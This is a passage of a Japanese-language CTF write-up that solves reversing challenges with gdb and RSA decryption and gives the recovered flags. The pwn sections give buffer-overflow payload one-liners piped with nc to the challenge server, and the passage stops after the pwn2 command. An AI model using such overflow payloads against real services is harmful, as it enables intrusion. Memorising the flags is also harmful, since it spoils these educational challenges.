 ## [reversing 100] fancy bear

func0
-> func1
-> func2
-> ...
-> func37

という感じで関数が呼ばれています。それぞれ見てみると、以下のように入力のチェックがされています。

```
gdb-peda$ x/i func0+62
   0x804c00c <_Z5func0NSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEE+62>:
    cmp    DWORD PTR [ebp-0x40],0x66
gdb-peda$ x/i func1+62
   0x804bef4 <_Z5func1NSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEE+62>:
    cmp    DWORD PTR [ebp-0x40],0x68
gdb-peda$ x/i func2+62
   0x804bddc <_Z5func2NSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEE+62>:
    cmp    DWORD PTR [ebp-0x40],0x66
gdb-peda$ x/i func3+62
   0x804bcc4 <_Z5func3NSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEE+62>:
    cmp    DWORD PTR [ebp-0x40],0x64
gdb-peda$ x/i func4+62
   0x804bbac <_Z5func4NSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEE+62>:
    cmp    DWORD PTR [ebp-0x40],0x6c
```

それぞれ 1 足すと `gigem` になりました。これを func37 まで続けるとフラグが得られました。

```
gigem{dynamic_effort_3c8bbe44f3f0923b}
```

## [reversing 200] SEDNIT

`strings -a c0c9f1c95d67adc2 -e L` で base64 エンコードされた文字列が 3 つ出てきました。

base64 デコードするとどうやら RSA の秘密鍵と暗号文のようです。復号するとフラグが出てきました。

```
gigem{feels_g00d_2b_a_pIrate__62d06b007569ff34}
```

## [pwn 50] pwn1

`echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAA\x1e\xab\x11\xca" | nc pwn.ctf.tamu.edu 4322`

```
gigem{T00_435Y}
```

## [pwn 100] pwn2

`python -c "print 'A' * 140 + '\x4b\x85\x04\x08'" | nc pwn.ctf.tamu.edu 4321`
